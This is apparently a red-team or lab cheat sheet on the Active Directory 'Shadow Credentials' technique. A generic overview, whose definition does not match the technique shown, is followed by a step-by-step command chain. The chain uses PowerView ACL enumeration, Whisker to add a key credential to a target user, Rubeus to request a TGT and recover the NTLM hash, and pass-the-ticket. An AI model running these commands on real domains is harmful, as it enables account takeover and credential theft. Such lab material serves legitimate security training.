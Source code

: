 # 🟢 Shadow Credentials

#### Shadow Credentials: An Overview

Shadow credentials refer to authentication methods or credentials that are not directly managed or visible through the primary security systems in an organization. These can arise from various scenarios such as legacy systems, improperly decommissioned accounts, or unauthorized user-created access points.



{% @mailchimp/mailchimpSubscribe %}

**Key Features:**

* **Hidden Access Points:** These credentials exist outside the purview of standard security protocols, making them hard to detect and manage.
* **Security Risk:** They increase the attack surface for cyber threats, as attackers can exploit these overlooked credentials.
* **Management Challenge:** Identifying and managing shadow credentials require specialized tools and vigilance.

**Mitigation Strategies:**

1. **Regular Audits:** Conduct comprehensive security audits to detect and assess unauthorized access points.
2. **Access Management Policies:** Implement strict policies and procedures for creating, modifying, and retiring user accounts and credentials.
3. **Continuous Monitoring:** Use security tools capable of monitoring and alerting on suspicious activities related to credential access.

Shadow credentials pose a significant security risk, and addressing them should be a priority for any organization's cybersecurity strategy.

### Abusing User Object

#### 1. Enumerate the permissions

```
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "StudentUsers"}
```

#### 2. Add the Shadow Credential

```
Whisker.exe add /target:supportXuser
```

#### 3. Using PowerView, see if the Shadow Credential is added.

```
Get-DomainUser -Identity supportXuser
```

#### 4. Request the TGT by leveraging the certificate

```
Rubeus.exe asktgt /user:supportXuser /certificate:MIIJuAIBAzCCCXQGCSqGSIb3DQEHAaCCCW.... /password:"1OT0qAom3..." /domain:us.techcorp.local /dc:US-DC.us.techcorp.local /getcredentials /show /nowrap
```

#### 5. Inject the TGT in the current session or use the NTLM hash

```
Rubeus.exe ptt /ticket:doIGgDCCBnygAwIBBaEDAgEW...
```
